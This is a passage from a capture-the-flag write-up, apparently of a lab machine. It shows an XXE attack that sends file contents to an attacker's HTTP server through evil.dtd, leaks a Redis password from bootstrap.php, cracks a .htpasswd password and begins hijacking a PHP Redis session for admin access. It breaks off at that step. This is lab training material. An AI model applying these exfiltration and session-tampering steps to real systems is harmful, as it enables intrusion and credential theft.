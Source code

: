 ```
	</user>
</root>
```

- Data received on a simple python http server:

```
10.129.105.217 - - [05/Dec/2022 08:52:21] "GET /evil.dtd HTTP/1.1" 200 -
10.129.105.217 - - [05/Dec/2022 08:52:22] "GET /?x=cG9sbHV0aW9uCg== HTTP/1.1" 200 -
```

- base64 decode:

```bash
echo 'cG9sbHV0aW9uCg==' | base64 -d

pollution
```

- read `../bootstrap.php`

```
echo 'PD9waHAKaW5pX3NldCgnc2Vzc2lvbi5zYXZlX2hhbmRsZXInLCdyZWRpcycpOwppbmlfc2V0KCdzZXNzaW9uLnNhdmVfcGF0aCcsJ3RjcDovLzEyNy4wLjAuMTo2Mzc5Lz9hdXRoPUNPTExFQ1RSM0QxU1BBU1MnKTsKCnNlc3Npb25fc3RhcnQoKTsKCnJlcXVpcmUgJy4uL3ZlbmRvci9hdXRvbG9hZC5waHAnOwo=' | base64 -d


<?php
ini_set('session.save_handler','redis');
ini_set('session.save_path','tcp://127.0.0.1:6379/?auth=COLLECTR3D1SPASS');

session_start();

require '../vendor/autoload.php';
```

- quick nmap scan

```shell
nmap -p 6379 $IP                                        

PORT     STATE SERVICE
6379/tcp open  redis
```

- Redis password: `COLLECTR3D1SPASS`
- Interesting findings: nothing really useful so far

```
10.129.105.217:6379[2]> SELECT 0
OK
10.129.105.217:6379> KEYS *
1) "PHPREDIS_SESSION:r8m0cvosgs95j34ckkh20dcuca"
```

- Found `PHPREDIS_SESSION` and after some googling, I found that you can control PHP sessions through a redis server
- I kept enumerating files using the XXE vulnerability and got the developers `.htpasswd` file. cracked the password
- `developers_group:r0cket`
- Now I modified the PHPREDIS_SESSION to give myself admin access to the website:
